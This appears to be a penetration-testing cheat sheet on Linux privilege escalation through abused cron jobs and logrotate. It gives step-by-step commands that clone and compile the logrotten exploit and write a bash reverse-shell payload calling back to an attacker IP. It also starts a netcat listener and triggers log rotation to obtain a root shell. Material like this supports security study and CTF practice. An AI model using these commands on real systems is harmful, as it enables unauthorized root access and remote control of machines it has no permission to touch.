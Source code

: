 # Programs, Jobs and Services

## **CronJob Abuse**

> Scheduled jobs, typically used for administrative tasks, creating backups, cleaning directories etc
>
> The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified
>
> When created, the cron file will be created in /var/spool/cron for the specific user that creates it
>
> Each entry in the crontab file requires six items in the following order: `minutes, hours, days, months, weeks, commands`.

**Exploiting Cronjobs:**

* By using `pspy` we can view running processes and commands run by others users without the need for root privileges
* CronJobs can be abused by analyzing their behaviour and the files they interact with
* Suppose a cronjob runs a backup script as root periodically.
* If we can interact with any resources handled by the script (or the script itself) we may be able to edit the logic of such script in order to get a reverse shell as the user running such cronjob (root)

***

## **Logrotate Abuse**

> `logrotate` is a tool (typically ran as a `cronjob`) used to manage all logs in `/var/logs`
>
> Its global settings configuration file is located at `/etc/logrotate.conf`, the `/etc/logrotate.d/` instead contains the configuration files for all forced rotations (after the first one)

**Exploiting logrotate with LogRotten:**

* **Prerequisites:** logrotate must run as `root` and we need `write permissions` on the logrotate log files
* **Vulnerable versions:** `3.8.6` `3.11.0` `3.15.0` `3.18.0`
* **Exploitation steps:**
  1. Use `pspy` to verify that a `cronjob` running `logrotate` as `root` is ran periodically
  2. Identify the logfile being rotated periodically: such files typically have a filename format like `filename.log.1` for the first rotation, then `filename.log.2` and so on
  3. `git clone https://github.com/whotwagner/logrotten.git`
  4. `gcc logrotten.c -o logrotten`
  5. `echo 'bash -i >& /dev/tcp/your-ip/nc-port 0>&1' > payload`
  6. Start the netcat listener on the attacker machine: nc -lvnp 9001
  7. Determine the option used by logrotate (create or compress): `grep "create\|compress" /etc/logrotate.conf | grep -v "#"`
  8. Adapt the payload based on the option specified in the `logrotate.conf` file:
     * Create: `./logrotten -p ./payload /tmp/log/pwnme.log`
     * Compress: `./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log`
  9. Wait for the rotation and get the reverse shell as root
  10. _**Disclaimer:**_ sometimes you might need to edit the logfile (add a blank space) in order to trigger the rotation
